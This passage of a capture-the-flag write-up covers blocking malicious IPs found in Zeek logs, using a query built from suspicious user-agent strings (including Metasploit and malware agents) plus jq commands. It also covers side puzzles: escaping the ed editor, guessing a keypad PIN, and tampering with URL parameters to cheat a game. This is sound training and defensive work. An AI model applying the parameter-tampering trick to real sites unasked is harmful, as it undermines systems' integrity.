"Mozilla/5.0 (Windows NT 5.1 ; v.)"
"Mozilla/5.0 (Windows NT 6.1; WOW62; rv:53.0) Gecko/20100101 Chrome /53.0"
"Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) ApleWebKit/525.13 (KHTML, like Gecko) chrome/4.0.221.6 safari/525.13"
"Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2.3) gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30731"
"Mozilla/5.0 (compatible; Goglebot/2.1; +http://www.google.com/bot.html)"
"Mozilla/5.0 (compatible; MSIE 10.0; W1ndow NT 6.1; Trident/6.0)"
"Mozilla/5.0 WinInet"
"Mozilla/5.0 Windows; U; Windows NT5.1; en-US; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30729)"
"Mozilla4.0 (compatible; MSSIE 8.0; Windows NT 5.1; Trident/5.0)"
"Opera/8.81 (Windows-NT 6.1; U; en)"
"RookIE/1.0"
"Wget/1.9+cvs-stable (Red Hat modified)"
"Mozilla/5.0 (Linux; Android 4.0.4; Galaxy Nexus Build/IMM76B) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.133 Mobile Safari/535.19"
"Mozilla/5.0 (Linux; Android 4.4; Nexus 5 Build/_BuildID_) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/30.0.0.0 Mobile Safari/537.36"
"Mozilla/5.0 (Linux; Android 5.1.1; Nexus 5 Build/LMY48B; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.65 Mobile Safari/537.36"
"Mozilla/5.0 (Linux; U; Android 4.1.1; en-gb; Build/KLP) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Safari/534.30"
"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/600.7.12 (KHTML, like Gecko) Version/8.0.7 Safari/600.7.12"
"Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/602.1.50 (KHTML, like Gecko) CriOS/56.0.2924.75 Mobile/14E5239e Safari/602.1"
"Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/603.1.23 (KHTML, like Gecko) Version/10.0 Mobile/14E5239e Safari/602.1"
----
+
.New query
[options="nowrap"]
----
user_agent.keyword("Mozilla/5.0 (Macintosh; U; PPC Mac OS X; fr) AppleWebKit/412.6 (KHTML, like Gecko) Safari/412.2" OR "Mozilla/4.0 (compatible;MSIe 7.0;Windows NT 5.1)" OR "CholTBAgent" OR "HttpBrowser/1.0" OR "Mozilla/4.0 (compatibl; MSIE 7.0; Windows NT 6.0; Trident/4.0; SIMBAR={7DB0F6DE-8DE7-4841-9084-28FA914B0F2E}; SLCC1; .N" OR "Mozilla/4.0 (compatible MSIE 5.0;Windows_98)" OR "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 500.0)" OR "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; .NETS CLR  1.1.4322)" OR "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; FunWebProducts; .NET CLR 1.1.4322; .NET CLR 2.0.50727)" OR "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT5.1)" OR "Mozilla/4.0 (compatible; MSIE 6.1; Windows NT6.0)" OR "Mozilla/4.0 (compatible; MSIE 6.a; Windows NTS)" OR "Mozilla/4.0 (compatible; MSIE 7.0; Windos NT 6.0)" OR "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; AntivirXP08; .NET CLR 1.1.4322)" OR "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Tridents/4.0)" OR "Mozilla/4.0 (compatible; MSIE 8.0; Window NT 5.1)" OR "Mozilla/4.0 (compatible; MSIE 8.0; Windows MT 6.1; Trident/4.0; .NET CLR 1.1.4322; )" OR "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Tridents/4.0; .NET CLR 1.1.4322; PeoplePal 7.0; .NET CLR 2.0.50727)" OR "Mozilla/4.0 (compatible; MSIE 8.0; Windows_NT 5.1; Trident/4.0)" OR "Mozilla/4.0 (compatible; MSIE6.0; Windows NT 5.1)" OR "Mozilla/4.0 (compatible; MSIEE 7.0; Windows NT 5.1)" OR "Mozilla/4.0 (compatible; Metasploit RSPEC)" OR "Mozilla/4.0 (compatible;MSIE 7.0;Windows NT 6." OR "Mozilla/4.0(compatible; MSIE 666.0; Windows NT 5.1" OR "Mozilla/5.0 (Windows NT 10.0;Win64;x64)" OR "Mozilla/5.0 (Windows NT 5.1 ; v.)" OR "Mozilla/5.0 (Windows NT 6.1; WOW62; rv:53.0) Gecko/20100101 Chrome /53.0" OR "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) ApleWebKit/525.13 (KHTML, like Gecko) chrome/4.0.221.6 safari/525.13" OR "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2.3) gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30731" OR "Mozilla/5.0 (compatible; Goglebot/2.1; +http://www.google.com/bot.html)" OR "Mozilla/5.0 (compatible; MSIE 10.0; W1ndow NT 6.1; Trident/6.0)" OR "Mozilla/5.0 WinInet" OR "Mozilla/5.0 Windows; U; Windows NT5.1; en-US; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30729)" OR "Mozilla4.0 (compatible; MSSIE 8.0; Windows NT 5.1; Trident/5.0)" OR "Opera/8.81 (Windows-NT 6.1; U; en)" OR "RookIE/1.0" OR "Wget/1.9+cvs-stable (Red Hat modified)" OR "Mozilla/5.0 (Linux; Android 4.0.4; Galaxy Nexus Build/IMM76B) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.133 Mobile Safari/535.19" OR "Mozilla/5.0 (Linux; Android 4.4; Nexus 5 Build/_BuildID_) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/30.0.0.0 Mobile Safari/537.36" OR "Mozilla/5.0 (Linux; Android 5.1.1; Nexus 5 Build/LMY48B; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.65 Mobile Safari/537.36" OR "Mozilla/5.0 (Linux; U; Android 4.1.1; en-gb; Build/KLP) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Safari/534.30" OR "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/600.7.12 (KHTML, like Gecko) Version/8.0.7 Safari/600.7.12" OR "Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/602.1.50 (KHTML, like Gecko) CriOS/56.0.2924.75 Mobile/14E5239e Safari/602.1" OR "Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/603.1.23 (KHTML, like Gecko) Version/10.0 Mobile/14E5239e Safari/602.1")
----
+
***** `90` hits for this search + the `15` ips from the user-agents list = `105` results!
***** Save response to disk
***** Extract IPs
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-12.Wdg]$ cat ips-bad-partial.json | jq -r '.hits.hits[]._source."id.orig_h"' | tee ips-bad-partial.txt | wc -l
90
----
+
. Create final list of ips to submit
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-12.Wdg]$ echo "$(cat ips-bad-partial.txt ips-uas.txt | sort -u | tr '\n' ',' | sed -re 's|,$||')"
0.216.249.31,10.122.158.57,10.155.246.29,102.143.16.184,103.235.93.133,104.179.109.113,106.132.195.153,10.61.51.10,106.93.213.219,111.81.145.191,116.116.98.205,118.196.230.170,118.26.57.38,121.7.186.163,123.127.233.97,126.102.12.53,129.121.121.48,131.186.145.73,13.39.153.254,135.203.243.43,135.32.99.116,140.60.154.239,142.128.135.10,148.146.134.52,150.45.133.97,158.171.84.209,162.234.176.133,168.66.108.62,173.37.160.150,179.88.120.25,180.246.147.152,185.19.7.133,186.28.46.179,187.152.203.243,187.178.169.123,190.245.228.38,19.235.69.221,200.75.228.240,203.68.29.5,208.14.190.102,217.132.156.225,220.132.33.81,2.230.60.70,223.149.180.133,22.34.153.164,2.240.116.254,225.191.220.138,226.102.56.13,226.240.188.154,227.110.45.126,229.133.163.235,229.229.189.246,230.246.50.221,231.179.108.238,23.49.177.78,238.143.78.114,238.36.255.223,249.237.77.152,249.34.9.16,249.90.116.138,250.22.86.40,252.122.243.212,253.182.102.55,253.65.40.39,27.88.56.114,28.169.41.122,29.0.183.220,31.116.232.143,3.1.192.132,31.254.228.4,34.129.179.28,34.155.174.167,37.216.249.50,42.103.246.130,42.103.246.250,42.127.244.30,42.16.149.112,42.191.112.181,44.164.136.41,44.74.106.131,45.239.232.245,48.66.193.176,49.161.8.58,50.154.111.0,53.160.218.44,53.55.225.83,56.5.47.137,61.110.82.125,65.153.114.120,66.116.147.181,68.115.251.76,69.221.145.150,75.73.228.192,80.244.147.207,81.14.204.154,83.0.8.119,84.147.231.129,87.195.80.126,9.206.212.33,92.213.148.0,95.166.116.45,97.220.93.190
----
+
. Create the DENY rules
+
image::main/12/23-ban.png[]

image::main/12/24-win.png[]

==== Chat

.Chat log
----
(The Tooth Fairy - PRE)
- I’m the Tooth Fairy, the mastermind behind the plot to destroy the holiday season.
- I hate how Santa is so beloved, but only works one day per year!
- He has all of the resources of the North Pole and the elves to help him too.
- I run a solo operation, toiling year-round collecting deciduous bicuspids and more from children.
- But I get nowhere near the gratitude that Santa gets. He needs to share his holiday resources with the rest of us!
- But, although you found me, you haven’t foiled my plot!
- Santa’s sleigh will NOT be able to find its way.
- I will get my revenge and respect!
- I want my own holiday, National Tooth Fairy Day, to be the most popular holiday on the calendar!!!

(Wunorse Openslae - PRE)
- Wunorse Openslae here, just looking at some Zeek logs.
- I'm pretty sure one of these connections is a malicious C2 channel...
- Do you think you could take a look?
- I hear a lot of C2 channels have very long connection times.
- Please use jq to find the longest connection in this data set.
- We have to kick out any and all grinchy activity!

(Wunorse Openslae - PRE)
- That's got to be the one - thanks!
- Hey, you know what? We've got a crisis here.
- You see, Santa's flight route is planned by a complex set of machine learning algorithms which use available weather data.
- All the weather stations are reporting severe weather to Santa's Sleigh. I think someone might be forging intentionally false weather data!
- I'm so flummoxed I can't even remember how to login!
- Hmm... Maybe the Zeek http.log could help us.
- I worry about LFI, XSS, and SQLi in the Zeek log - oh my!
- And I'd be shocked if there weren't some shell stuff in there too.
- I'll bet if you pick through, you can find some naughty data from naughty hosts and block it in the firewall.
- If you find a log entry that definitely looks bad, try pivoting off other unusual attributes in that entry to find more bad IPs.
- The sleigh's machine learning device (SRF) needs most of the malicious IPs blocked in order to calculate a good route.
- Try not to block many legitimate weather station IPs as that could also cause route calculation failure.
- Remember, when looking at JSON data, jq is the tool for you!

(Krampus - PRE)
But there’s still time! Solve the final challenge in your badge by blocking the bad IPs at srf.elfu.org and save the holiday season!

(Krampus - POST)
- Congratulations on a job well done!
- Oh, by the way, I won the Frido Sleigh contest.
- I got 31.8% of the prizes, though I'll have to figure that out.

(Santa - POST)
- You did it! Thank you! You uncovered the sinister plot to destroy the holiday season!
- Through your diligent efforts, we’ve brought the Tooth Fairy to justice and saved the holidays!
- Ho Ho Ho!
- The more I laugh, the more I fill with glee.
- And the more the glee,
- The more I'm a merrier me!
- Merry Christmas and Happy Holidays.


(The Tooth Fairy - POST)
- You foiled my dastardly plan! I’m ruined!
- And I would have gotten away with it too, if it weren't for you meddling kids!
----

== Side challenges

=== Escaping ED

Location: `Train Station`

image::side/00-escape-ed/00-location.png[Picture of challenge location]

The goal of this challenge is to find a way to escape from https://www.gnu.org/software/ed/manual/ed_manual.html[ed].

.Initial
----
                  ........................................
               .;oooooooooooool;,,,,,,,,:loooooooooooooll:
             .:oooooooooooooc;,,,,,,,,:ooooooooooooollooo:
           .';;;;;;;;;;;;;;,''''''''';;;;;;;;;;;;;,;ooooo:
         .''''''''''''''''''''''''''''''''''''''''';ooooo:
       ;oooooooooooool;''''''',:loooooooooooolc;',,;ooooo:
    .:oooooooooooooc;',,,,,,,:ooooooooooooolccoc,,,;ooooo:
  .cooooooooooooo:,''''''',:ooooooooooooolcloooc,,,;ooooo,
  coooooooooooooo,,,,,,,,,;ooooooooooooooloooooc,,,;ooo,
  coooooooooooooo,,,,,,,,,;ooooooooooooooloooooc,,,;l'
  coooooooooooooo,,,,,,,,,;ooooooooooooooloooooc,,..
  coooooooooooooo,,,,,,,,,;ooooooooooooooloooooc.
  coooooooooooooo,,,,,,,,,;ooooooooooooooloooo:.
  coooooooooooooo,,,,,,,,,;ooooooooooooooloo;
  :llllllllllllll,'''''''';llllllllllllllc,



Oh, many UNIX tools grow old, but this one's showing gray.
That Pepper LOLs and rolls her eyes, sends mocking looks my way.
I need to exit, run - get out! - and celebrate the yule.
Your challenge is to help this elf escape this blasted tool.

-Bushy Evergreen

Exit ed.

1100
----

==== Solution

. Press `Q` then the `[enter]` key
+
image::side/00-escape-ed/01-solution.png[Picture of the solution dialog]

==== Chat

.Chat log
----
(Bushy Evergreen - PRE)
- Hi, I'm Bushy Evergreen. Welcome to Elf U!
- I'm glad you're here. I'm the target of a terrible trick.
- Pepper Minstix is at it again, sticking me in a text editor.
- Pepper is forcing me to learn ed.
- Even the hint is ugly. Why can't I just use Gedit?
- Please help me just quit the grinchy thing.

(Bushy Evergreen - POST)
-Wow, that was much easier than I'd thought.
-Maybe I don't need a clunky GUI after all!
-Have you taken a look at the password spray attack artifacts?
-I'll bet that DeepBlueCLI tool is helpful.
-You can check it out on GitHub.
-It was written by that Eric Conrad.
-He lives in Maine - not too far from here!
----

=== Frosty Keypad

Location: `The Quad`

image::side/01-frosty-keypad/00-location.png[Picture of challenge location]

The goal of this challenge is to guess the pin for a keypad, this gives you access to the dorms which is required for main challenge 06.

image::side/01-frosty-keypad/01-keypad.png[Image of the keypad]

==== Solution

. Noted that the three worn digits were `1, 3, 7`
. Looked at what `Tangle Coalbox` told me
.. One digit is repeated once
.. Code is a prime number
. The available numbers made me think of *leet* speak
. Remembered that `1337` is not prime -- but `7331` is

NOTE: *Answer*: `7331`

==== Chat

.Chat log
----
(Tangle Coalbox - PRE)
- Hey kid, it's me, Tangle Coalbox.
- I'm sleuthing again, and I could use your help.
- Ya see, this here number lock's been popped by someone.
- I think I know who, but it'd sure be great if you could open this up for me.
- I've got a few clues for you.
-- One digit is repeated once.
-- The code is a prime number.
-- You can probably tell by looking at the keypad which buttons are used.

(Tangle Coalbox - POST)
- Yep, that's it. Thanks for the assist, gumshoe.
- Hey, if you think you can help with another problem, Prof. Banas could use a hand too.
- Head west to the other side of the quad into Hermey Hall and find him in the Laboratory.
----

=== Holiday Hack Trail

Location: `Dorm`

image::side/02-holiday-hack-trail/00-location.png[Picture of challenge location]

The goal of this challenge is to cheat at a game that has very basic anti-cheat built in.

image::side/02-holiday-hack-trail/01-screen.png[Image of the keypad]

==== Solution

===== Easy

. Start a game
. Played with the url
+
----
hhc://trail.hhc/store/?difficulty=0&distance=0&money=5000&pace=0&curmonth=7&curday=1&reindeer=2&runners=2&ammo=100&meds=20&food=400&name0=Ryan&health0=100&cond0=0&causeofdeath0=&deathday0=0&deathmonth0=0&name1=Anna&health1=100&cond1=0&causeofdeath1=&deathday1=0&deathmonth1=0&name2=Chris&health2=100&cond2=0&causeofdeath2=&deathday2=0&deathmonth2=0&name3=Mathias&health3=100&cond3=0&causeofdeath3=&deathday3=0&deathmonth3=0
----
+
. Noticed that `distance` could be changed
. Set `distance` => `7990`
+
----
hhc://trail.hhc/store/?difficulty=0&distance=7990&money=5000&pace=0&curmonth=7&curday=1&reindeer=2&runners=2&ammo=100&meds=20&food=400&name0=Ryan&health0=100&cond0=0&causeofdeath0=&deathday0=0&deathmonth0=0&name1=Anna&health1=100&cond1=0&causeofdeath1=&deathday1=0&deathmont
----
+
image::side/02-holiday-hack-trail/02-edited.png[Edited url]
+
. Click *Buy* button in store
+
image::side/02-holiday-hack-trail/03-close.png[Close to the end]
+
. Press *Go*

image::side/02-holiday-hack-trail/04-win.png[Win message]

==== Chat

.Chat log
----
(Minty Candycane - PRE)
- Hi! I'm Minty Candycane!
- I just LOVE this old game!
- I found it on a 5 1/4" floppy in the attic.
- You should give it a go!
- If you get stuck at all, check out this year's talks.
- If you get stuck at all, check out this year's talks.
- One is about web application penetration testing.
- Good luck, and don't get dysentery!


(Minty Candycane - POST)
- You made it - congrats!
- Have you played with the key grinder in my room? Check it out!
- It turns out: if you have a good image of a key, you can physically copy it.
- Maybe you'll see someone hopping around with a key here on campus.
- Sometimes you can find it in the Network tab of the browser console.
- Deviant has a great talk on it at this year's Con.
- He even has a collection of key bitting templates for common vendors like Kwikset, Schlage, and Yale.
----
